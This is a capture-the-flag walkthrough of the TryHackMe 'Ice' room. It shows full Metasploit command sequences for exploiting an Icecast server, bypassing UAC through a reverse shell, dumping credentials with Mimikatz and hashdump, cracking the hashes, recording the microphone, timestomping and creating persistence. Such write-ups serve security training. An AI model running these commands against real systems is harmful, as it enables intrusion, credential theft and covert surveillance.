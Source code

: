 # Ice

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

## Intro

| Room Info           | ![](.gitbook/assets/ice.png)          |
| :------------------ | ------------------------------------- |
| 🔗 Name              | [Ice](https://tryhackme.com/room/ice) |
| 🎯 Target IP         | `10.10.159.9`                         |
| 📈 Difficulty level  | 🟢Easy                                 |
| 💲 Subscription type | Free                                  |
| 🪟 🐧OS               | Windows                               |

---

## Recon

```bash
mkdir ice
cd ice/
sudo nmap -sS -sV -Pn -p- 10.10.159.9
```

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  http         Icecast streaming media server
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 02:58:8C:89:6C:3D (Unknown)
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

---

## Exploitation

```bash
msfconsole -q
setg RHOSTS 10.10.159.9
setg RHOST 10.10.159.9
search cve:2004-1561
use exploit/windows/http/icecast_header
run
```

### Local Enumeration

```bash
getuid
sysinfo
run post/multi/recon/local_exploit_suggester
```

```bash
Server username: Dark-PC\Dark

Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

1 exploit/windows/local/bypassuac_eventvwr         Yes The target appears to be v erable.
2 exploit/windows/local/ms10_092_schelevator       Yes The service is running, but could not be v dated.
3 exploit/windows/local/ms13_053_schlamperei       Yes The target appears to be v erable.
4 exploit/windows/local/ms13_081_track_popup_menu  Yes The target appears to be v erable.
5 exploit/windows/local/ms14_058_track_popup_menu  Yes The target appears to be v erable.
6 exploit/windows/local/ms15_051_client_copy_image Yes The target appears to be v erable.
7 exploit/windows/local/ntusermndragover           Yes The target appears to be v erable.
8 exploit/windows/local/ppr_flatten_rec            Yes The target appears to be v erable.
9 exploit/windows/local/tokenmagic                 Yes The target appears to be vulnerable.
```

---

## Privilege Escalation

```bash
background
sessions
use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
set LHOST 10.10.55.230
set LPORT 4455
run

getprivs
```

```bash
Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

---

## Post Exploitation

```bash
pgrep spool
migrate 1376 # poolsv PID
migrate -N spoolsv.exe
getuid 
	Server username: NT AUTHORITY\SYSTEM

# Mimikatz
load kiwi
creds_all
```

> 📌 `Dark`:`Password01!`

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Dark:1000:aad3b435b51404eeaad3b435b51404ee:7c4fe5eada682714a036e39378362bab:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

* Cracking (extra)

```bash
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes_ice.txt
```

![](.gitbook/assets/image-20230510172241398.png)

```bash
screenshare
	file:///root/ipzHMhGp.html
record_mic
timestomp
golden_ticket_create # persistence
```

```bash
run post/windows/manage/enable_rdp
xfreerdp /u:Dark /p:Password01! /v:10.10.159.9
```

![](.gitbook/assets/image-20230510171923611.png)

***
